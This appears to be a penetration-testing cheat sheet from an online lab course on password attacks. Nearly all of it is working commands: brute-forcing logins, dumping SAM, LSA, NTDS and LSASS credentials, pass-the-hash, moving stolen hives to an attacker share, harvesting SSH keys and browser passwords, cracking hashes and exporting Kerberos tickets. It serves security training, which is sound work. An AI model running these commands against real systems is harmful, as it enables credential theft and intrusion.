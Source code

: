 ## Connecting to Target

| **Command**| **Description**|
|-|-|
| `xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `evil-winrm -i <ip> -u user -p password`            | Uses Evil-WinRM to establish a Powershell session with a target. |
| `ssh user@<ip>`                                     | Uses SSH to connect to a target using a specified user.      |
| `smbclient -U user \\\\<ip>\\SHARENAME`             | Uses smbclient to connect to an SMB share using a specified user. |
| `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/` | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

---
## Password Mutations

| **Command**| **Description**|
|-|-|
| `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist` | Uses cewl to generate a wordlist based on keywords present on a website. |
| `hashcat --force password.list -r custom.rule --stdout > mut_password.list` | Uses Hashcat to generate a rule-based word list.             |
| `hashcat --force password.list -r custom.rule --stdout \| sort -u > mut_password.list` | Uses Hashcat to generate a rule-based word list. but sorted |
| `./username-anarchy -i /path/to/listoffirstandlastnames.txt` | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |
| `curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt` | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

---
## Remote Password Attacks

| **Command**| **Description**|
|-|-|
| `crackmapexec winrm <ip> -u user.list -p password.list` | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target. |
| `crackmapexec smb <ip> -u "user" -p "password" --shares` | Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials. |
| `hydra -L user.list -P password.list <service>://<ip>`       | Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service. |
| `hydra -l username -P password.list <service>://<ip>`       | Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service. |
| `hydra -l user.list -p password <service>://<ip>`       | Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service. |
| `hydra -C <user_pass.list> ssh://<IP>`                       | Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam` | Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa` | Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way. |
| `crackmapexec smb <ip> -u <username> -p <password> --ntds` | Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network. |
| `evil-winrm -i <ip>  -u  Administrator -H "<passwordhash>"` | Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of `Pass-The-Hash` attack. |

---
## Windows Local Password Attacks


| **Command**| **Description**|
|-|-|
| `tasklist /svc`                                              | A command-line-based utility in Windows used to list running processes. |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml` | Uses Windows command-line based utility findstr to search for the string "password" in many different file type. |
| `Get-Process lsass`                                          | A Powershell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line. |
| `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` | Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials. |
| `pypykatz lsa minidump /path/to/lsassdumpfile`               | Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file. |
| `reg.exe save hklm\sam C:\sam.save`                          | Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system). |
| `move sam.save \\<ip>\NameofFileShare`                  | Uses move in Windows to transfer a file to a specified file share over the network. |
| `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL` | Uses Secretsdump.py to dump password hashes from the SAM database. |
| `vssadmin CREATE SHADOW /For=C:`                             | Uses Windows command line based tool vssadmin to create a volume shadow copy for `C:`. This can be used to make a copy of NTDS.dit safely. |
| `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` | Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of `C:`. |


----
## Linux Local Password Attacks

| **Command**| **Description**|
|-|-|
| `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script that can be used to find .conf, .config and .cnf files on a Linux system. |
| `for i in $(find / -name *.cnf 2>/dev/null \| grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null \| grep -v "\#";done` | Script that can be used to find credentials in specified file types. |
| `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share\|man";done` | Script that can be used to find common database files.       |
| `find /home/* -type f -name "*.txt" -o ! -name "*.*"`        | Uses Linux-based find command to search for text files.      |
| `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share";done` | Script that can be used to search for common file types used with scripts. |
| `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script used to look for common types of documents.           |
| `cat /etc/crontab`                                           | Uses Linux-based cat command to view the contents of crontab in search for credentials. |
| `ls -la /etc/cron.*/`                                        | Uses Linux-based  ls -la command to list all files that start with `cron` contained in the etc directory. |
| `grep -rnw "PRIVATE KEY" /* 2>/dev/null \| grep ":1"`        | Uses Linux-based command grep to search the file system for key terms `PRIVATE KEY` to discover SSH keys. |
| `grep -rnw "PRIVATE KEY" /home/* 2>/dev/null \| grep ":1"`    | Uses Linux-based grep command to search for the keywords `PRIVATE KEY` within files contained in a user's home directory. |
| `grep -rnw "ssh-rsa" /home/* 2>/dev/null \| grep ":1"`        | Uses Linux-based grep command to search for keywords `ssh-rsa` within files contained in a user's home directory. |
| `tail -n5 /home/*/.bash*`                                   | Uses Linux-based tail command to search the through bash history files and output the last 5 lines. |
| `python3 mimipenguin.py`                                     | Runs Mimipenguin.py using python3.                           |
| `bash mimipenguin.sh`                                       | Runs Mimipenguin.sh using bash.                              |
| `python2.7 lazagne.py all`                                   | Runs Lazagne.py with all modules using python2.7             |
| `ls -l .mozilla/firefox/ \| grep default `                    | Uses Linux-based command to search for credentials stored by Firefox then searches for the keyword `default` using grep. |
| `cat .mozilla/firefox/1bplpd86.default-release/logins.json \| jq .` | Uses Linux-based command cat to search for credentials stored by Firefox in JSON. |
| `python3.9 firefox_decrypt.py`                               | Runs Firefox_decrypt.py to decrypt any encrypted credentials stored by Firefox. Program will run using python3.9. |
| `python3 lazagne.py browsers`                                | Runs Lazagne.py browsers module using Python 3.               |
| `for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done` | logs |

----
## Cracking Passwords

> for hashcat rule : `-r /usr/share/hashcat/rules/best64.rule`


| **Command**| **Description**|
|-|-|
| `hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt` | Uses Hashcat to crack NTLM hashes using a specified wordlist. |
| `hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show` | Uses Hashcat to attempt to crack a single NTLM hash and display the results in the terminal output. |
| `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes` | Uses unshadow to combine data from passwd.bak and shadow.bk into one single file to prepare for cracking. |
| `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked` | Uses Hashcat in conjunction with a wordlist to crack the unshadowed hashes and outputs the cracked hashes to a file called unshadowed.cracked. |
| ` hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`           | Uses Hashcat in conjunction with a word list to crack the md5 hashes in the md5-hashes.list file. |
| `hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked` | Uses Hashcat to crack the extracted BitLocker hashes using a wordlist and outputs the cracked hashes into a file called backup.cracked. |
| `ssh2john.pl SSH.private > ssh.hash`         | Runs Ssh2john.pl script to generate hashes for the SSH keys in the SSH.private file, then redirects the hashes to a file called ssh.hash. |
| `john ssh.hash --show`                                       | Uses John to attempt to crack the hashes in the ssh.hash file, then outputs the results in the terminal. |
| `office2john.py Protected.docx > protected-docx.hash`        | Runs Office2john.py against a protected .docx file and converts it to a hash stored in a file called protected-docx.hash. |
| `john --wordlist=rockyou.txt protected-docx.hash`            | Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash. |
| `pdf2john.pl PDF.pdf > pdf.hash`                       | Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked. |
| `john --wordlist=rockyou.txt pdf.hash`                       | Runs John in conjunction with a wordlist to crack a pdf hash. |
| `zip2john ZIP.zip > zip.hash`                                | Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash. |
| `john --wordlist=rockyou.txt zip.hash`                       | Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash. |
| `bitlocker2john -i Backup.vhd > backup.hashes`               | Uses Bitlocker2john script to extract hashes from a VHD file and directs the output to a file called backup.hashes. |
| `file GZIP.gzip`                                             | Uses the Linux-based file tool to gather file format information. |
| `for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null \| tar xz;done` | Script that runs a for-loop to extract files from an archive. |

## Key Terms to Search
| | | |
|-|-|-|
| Passwords |	Passphrases |	Keys |
| Username 	| User account | 	Creds | 
| Users |	Passkeys |	Passphrases | 
| configuration |	dbcredential |	dbpassword |
| pwd |	Login |	Credentials |

## LaZagne
https://github.com/AlessandroZ/LaZagne  
The LaZagne project is an open source application used to retrieve lots of passwords stored on a local computer. Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). This tool has been developed for the purpose of finding these passwords for the most commonly-used software.
```
lazagne.exe all -vv
```
> `-vv` for verbose 


## Additional Considerations

There are thousands of tools & key terms we could use to hunt for credentials on Windows operating systems. Know that which ones we choose to use will be primarily based on the function of the computer. If we land on a Windows Server OS, we may use a different approach than if we land on a Windows Desktop OS. Always be mindful of how the system is being used, and this will help us know where to look. Sometimes we may even be able to find credentials by navigating and listing directories on the file system as our tools run.

Here are some other places we should keep in mind when credential hunting:

* Passwords in Group Policy in the SYSVOL share
* Passwords in scripts in the SYSVOL share
* Password in scripts on IT shares
* Passwords in web.config files on dev machines and IT shares
* unattend.xml
* Passwords in the AD user or computer description fields
* KeePass databases --> pull hash, crack and get loads of access.
* Found on user systems and shares
* Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint


## findstr
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Passwd, Shadow & Opasswd

`/etc/security/opasswd`  

Unshadow
```
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

crack unshadowed hashes
```
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

## Harvesting Kerberos Tickets from Windows

Mimikatz - Export Tickets
```
sekurlsa::tickets /export
```

Rubeus - Export Tickets
```
Rubeus.exe dump /nowrap
```

